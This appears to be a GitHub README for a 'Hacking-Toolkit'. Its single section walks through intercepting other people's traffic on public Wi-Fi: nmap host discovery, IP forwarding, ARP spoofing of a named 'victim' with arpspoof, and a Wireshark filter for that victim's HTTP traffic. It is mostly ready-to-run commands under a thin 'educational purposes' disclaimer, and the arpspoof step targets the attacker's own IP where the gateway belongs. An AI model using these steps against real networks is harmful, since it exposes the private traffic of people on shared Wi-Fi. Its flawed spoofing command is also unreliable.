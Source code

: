 # Hacking-Toolkit
I compiled all hacking tools I have found, Credit to the original writers of these tools. Please use this code at your own risk and NEVER TRY IT ON A WEBSITE YOU DON'T HAVE PERMISSION FROM  I REPEAT NEVER.
This is only for educational purposes, If you do choose to use it for malicious purposes I am not held responsible.

Here are the instructions on how to use each tool:

1: Invasion (This only works if you are trying to access a public WI-FI access point)

Requirements: Kali Linux or other Linux with required tools installed, Nmap, Arpspoof, and Wireshark


Step 1: Connect to the target network and run the following command in the terminal:

```
ip route
```

Step 2: Next step is to use nmap to find the different hosts connected to the network by executing the following command:

```
nmap -sP -n "gateway address/ip range"
```

Step 3: Enable IP forwarding using the command:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Step 4: To get victim traffic on our device, we will be using arpspoof command. For arpspoof command we require to know the interface on which we carry out the attack, for that run the following command:

```
ifconfig
```

Now run the following command:

```
arpspoof -i wlp3s0 -t "victim host ip address" -r "our ip address"
```

Step 5: Finally to intercept the victim’s traffic we are going to use Wireshark and all we have to do is use the victim’s IP Address. Let’s say we only want to have HTTP traffic, we can use the following query:

```
http && ip.addr == "victim's ip address"
```




